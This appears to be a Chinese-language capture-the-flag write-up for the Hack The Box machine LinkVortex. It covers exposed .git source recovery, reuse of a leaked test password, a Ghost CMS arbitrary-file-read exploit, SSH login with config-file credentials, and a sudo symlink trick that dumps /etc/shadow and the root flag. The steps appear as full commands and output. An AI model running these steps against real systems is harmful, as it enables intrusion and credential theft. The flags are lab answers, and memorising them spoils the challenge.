




# LinkVortex

:::info

Difficulty: Easy

Operating System: Linux

:::

## ENTRY POINT

```plaintext
10.10.11.47
```

## 信息搜集

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo nmap -v --min-rate=2000 -A -p- 10.10.11.47
Nmap scan report for bogon (10.10.11.47)
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 40.922 days (since Tue Feb 25 10:23:39 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

将 `linkvortex.htb - 10.10.11.47` 添加到 hosts 记录

同时尝试爆破子域名

```shell
┌──(randark ㉿ kali)-[~]
└─$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 --append-domain -u http://linkvortex.htb/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://linkvortex.htb/
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.linkvortex.htb Status: 200 [Size: 2538]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

一并更新 hosts 记录

## Port 80 Web Service

尝试直接访问 `linkvortex.htb`


在页面底部发现 `Powered by Ghost`

并根据框架指纹，得到版本信息



可以查询到 [CVE-2023-40028 Ghost Arbitrary File Read](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) 漏洞信息，但是需要登录凭据

尝试访问 `dev.linkvortex.htb`


尝试对其进行目录爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ dirsearch -u http://dev.linkvortex.htb/
[08:43:37] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/
[08:43:37] 200 -  201B  - /.git/config
[08:43:37] 200 -   73B  - /.git/description
[08:43:37] 200 -   41B  - /.git/HEAD
[08:43:37] 200 -  620B  - /.git/hooks/
[08:43:37] 200 -  401B  - /.git/logs/
[08:43:37] 200 -  240B  - /.git/info/exclude
[08:43:37] 200 -  557B  - /.git/
[08:43:37] 200 -  402B  - /.git/info/
[08:43:38] 200 -  393B  - /.git/refs/
[08:43:38] 200 -  175B  - /.git/logs/HEAD
[08:43:38] 200 -  418B  - /.git/objects/
[08:43:38] 200 -  147B  - /.git/packed-refs
[08:43:38] 301 -  249B  - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
[08:43:38] 200 -  691KB - /.git/index
```

那么就很明显了，存在有 `.git` 源码泄露

## Git 敏感信息泄露

尝试将 `git` 储存库 dump 到本地

```shell
┌──(randark ㉿ kali)-[~/tmp/Hackthebx-LinkVortex]
└─$ python3 ~/tools/GitHack/GitHack.py http://dev.linkvortex.htb/.git/
......
```

在 dump 过程中可以发现，git 储存库存在有大量的数据丢失，最终只获得了以下信息

```shell
┌──(randark ㉿ kali)-[~/tmp/Hackthebx-LinkVortex]
└─$ tree -a
.
├── dev.linkvortex.htb
│   ├── Dockerfile.ghost
│   └── ghost
│       └── core
│           └── test
│               └── regression
│                   └── api
│                       └── admin
│                           └── authentication.test.js
├── .git
│   ├── config
│   ├── description
│   ├── HEAD
│   ├── index
│   ├── info
│   ├── logs
│   │   ├── HEAD
│   │   └── refs
│   │       ├── heads
│   │       └── remotes
│   ├── objects
│   │   ├── 29
│   │   ├── Fo
│   │   ├── HT
│   │   ├── info
│   │   ├── No
│   │   ├── pack
│   │   ├── re
│   │   └── UR
│   ├── packed-refs
│   └── refs
│       ├── heads
│       ├── remotes
│       └── tags
└── index

27 directories, 9 files
```

看一眼 Docker 源码

```docker title="Hackthebx-LinkVortex/dev.linkvortex.htb/Dockerfile.ghost"
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

对 `dev.linkvortex.htb/ghost/core/test/regression/api/admin/authentication.test.js` 源码进行分析



在其中发现以下凭据

```javascript
const email = 'test@example.com';
const password = 'OctopiFociPilfer45';

email: 'test-leo@example.com',
password: 'thisissupersafe',

email: 'test-edit@example.com',
password: 'thisissupersafe',

const email = 'test@example.com';
const password = 'thisissupersafe';

password: 'lel123456',
email: 'not-invited@example.org',
```

目测一下，尝试使用 `OctopiFociPilfer45` 登录到 `http://linkvortex.htb/ghost/`



成功进入到后台



## Ghost CMS CVE-2023-40028

```shell
┌──(randark ㉿ kali)-[~/tools/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028]
└─$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

尝试读取上文在 Docker 源码中发现的配置文件 `/var/lib/ghost/config.production.json`

```json
{
    "url": "http://localhost:2368",
    "server": {
        "port": 2368,
        "host": "::"
    },
    "mail": {
        "transport": "Direct"
    },
    "logging": {
        "transports": [
            "stdout"
        ]
    },
    "process": "systemd",
    "paths": {
        "contentPath": "/var/lib/ghost/content"
    },
    "spam": {
        "user_login": {
            "minWait": 1,
            "maxWait": 604800000,
            "freeRetries": 5000
        }
    },
    "mail": {
        "transport": "SMTP",
        "options": {
            "service": "Google",
            "host": "linkvortex.htb",
            "port": 587,
            "auth": {
                "user": "bob@linkvortex.htb",
                "pass": "fibber-talented-worth"
            }
        }
    }
}
```

在其中发现了一个凭据 `bob@linkvortex.htb:fibber-talented-worth`

## SSH bob

尝试使用上文得到的凭据登录到 SSH

```shell
┌──(randark ㉿ kali)-[~/tools/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028]
└─$ pwncat-cs bob@linkvortex.htb
[09:11:22] Welcome to pwncat 🐈!
Password: *********************
[09:11:31] linkvortex.htb:22: registered new host w/ db
(local) pwncat$ back
(remote) bob@linkvortex:/home/bob$ whoami
bob
```

## FLAG - USER

```flag title="/home/bob/user.txt"
5dba1ee073c7f16b17c7dc25ffd8a409
```

## 提权至 root

```shell
(remote) bob@linkvortex:/home/bob$ getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
(remote) bob@linkvortex:/home/bob$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
(remote) bob@linkvortex:/home/bob$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/fusermount3
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpasswd
```

分析一下 `/opt/ghost/clean_symlink.sh` 的逻辑

```bash title="/opt/ghost/clean_symlink.sh"
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [-z $CHECK_CONTENT];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [["$LINK" =~ \.png$]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [$LINK] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [$LINK] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

可以尝试使用这个脚本实现任意文件读取

```shell
(remote) bob@linkvortex:/home/bob$ ln -s /etc/shadow shadow
(remote) bob@linkvortex:/home/bob$ ln -s /home/bob/shadow shadow.png
(remote) bob@linkvortex:/home/bob$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
Link found [shadow.png] , moving it to quarantine
Content:
root:$y$j9T$C3zg87gHwrCXO0vl4igIh/$iisf9sVwilKAi7mI5p1FqQslJWM9t2.YUWznIPC/XIA:19814:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
usbmux:*:19814:0:99999:7:::
bob:$6$rounds=656000$4p3mw8hAd9ir.25f$ocGm9nW1TM2AB8Z.l0K.hi43bOrm3oxQsaKFACMoS2UL.tIXxSW3u/xsClrvkEhP5s.GUpdIvCX3qRtppDV8r.:19814:0:99999:7:::
dnsmasq:*:19814:0:99999:7:::
_laurel:!:20057::::::
```

这个方案可以直接读取到 `root` 用户的 `.ssh` 文件夹中的私钥文件，也可以直接读取到 flag

```shell
(remote) bob@linkvortex:/home/bob$ ln -s /root/root.txt flag
(remote) bob@linkvortex:/home/bob$ ln -s /home/bob/flag flag.png
(remote) bob@linkvortex:/home/bob$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
Link found [flag.png] , moving it to quarantine
Content:
6605dcb1170a6987abb6b5c4259bd10c
```

## FLAG - ROOT

```flag title="/root/root.txt"
6605dcb1170a6987abb6b5c4259bd10c
```
